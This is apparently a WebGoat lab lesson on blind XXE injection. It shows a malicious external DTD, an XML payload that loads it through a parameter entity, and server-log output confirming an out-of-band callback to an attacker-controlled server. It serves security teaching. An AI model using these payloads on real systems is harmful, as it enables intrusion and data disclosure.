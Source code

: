 == Blind XXE

In some cases you will see no output because although your attack might have worked the field is not reflected in the output of page.
Or the resource you are trying to read contains illegal XML character which causes the parser to fail.
Let's start with an example, in this case we reference a external DTD which we control on our own server.

Our WebGoat server by default has an /xxe/ping endpoint which we can use. *This can be any server you control.*

[source]
----
curl -i http://localhost:8080/WebGoat/XXE/ping

will result in:

GET curl/7.45.0
----

at the server side.

How do we use this endpoint to verify whether we can perform XXE?

In the `~/${user.home}/.webgoat/plugin/XXE` create a file called attack.dtd

[source]
----
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=HelloWorld'>
----

Now submit the form and change the xml to:

[source]
----
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://localhost:8080/WebGoat/plugin_lessons/plugin/XXE/attack.dtd">
%remote;
]>
<user>
  <username>test&ping;</username>
</user>
----

Now if we check our server log we will see:

[source]
----
GET Java/1.8.0_101 HelloWorld
----

So with the XXE we are able to ping our own server which means XXE injection is possible.

[NOTE]
In this case we use http://localhost:8080/WebGoat/plugin_lessons/plugin/XXE/test.dtd to fetch the dtd but in reality this will
of course be a host fully under the attackers control.